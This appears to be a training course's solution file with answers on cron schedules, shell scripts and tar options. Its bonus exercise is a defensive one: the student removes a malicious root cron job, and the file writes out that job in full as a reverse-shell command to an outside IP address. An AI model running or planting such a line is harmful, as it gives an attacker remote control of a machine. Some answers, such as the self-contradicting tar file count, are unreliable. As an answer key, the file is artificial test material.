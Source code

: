 ## Solution File: Reviewing Crons
​
1. Answer the following `cron` assessment questions:
​
    - When will the following `cron` schedules run?
​
      `*/10 * * * *` 
​
       - **Solution**: At every 10th minute.
​
    - What event is the following `cron` a minute away from?
​
      `59 23 31 12 *`
​
       - **Solution**: New Years!
​
    - What do the following hypothetical `cron` likely do?
​
        - `0 18 * * 1-5 /home/Bob/Sales/sum_of_sales.sh`
​
            - **Solution**: Run a script that adds up all the sales for the work day.
​
        - `@weekly /home/sysadmin/Scripts/auto-update.sh`
​
            - **Solution**: A weekly automated system upate.
​
2. Answer the following `script` assessment questions:
​
    - What is a _shebang_?
​
        - **Solution**: It is the commented file declaration at the top of a shell script.
​
    - What two characters should come before the filename of a script?
​
        - **Solution**: `./`
​
    - Jane's script has _user_ and _group_ ownership of a script with `-rw-r--r--` permissions, but she cannot get it to run. What must she do to the file before it will run?
​
        - **Solution**: Run `chmod +x` on her file!
​
3. Answer the following `tar` assessment questions:
​
    - How does the `-x` option modify the `tar` command?
​
        - **Solution**: This option will let `tar` extract an archive!
​
    - If a directory has `ten` files and the following command is used in it, how many files are being archived?
​
        -   `tar cvvWf backups/archive.tar .`
​
            - **Solution**: Zero, because tar doesn’t compress!! But all files should be archived as they're all in ., the current directory!
​
    - What option prints the full file specification of files as you interact with them?
​
        - **Solution**: `-vv`
​
    - Why is the `-f` option used in almost every `tar` operation?
​
        - **Solution**: The `-f` option lets you designate a `tar` file to either _create_ or _extract_ or _list_ from.
​
4. **Bonus**: You are tasked to look through the `cron` jobs within your current workstation to see if any suspicious or modified cron jobs exist. Remove the one that matches the following descriptions: `Cron` is running system-level jobs with `root` privileges.The `cron` task you're looking for involves another machine.
​
   - Run: `sudo crontab -e` to open the `root` `crontab`.
​
   - The cron you wanted to remove was:
​
   - `*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1`
​
---
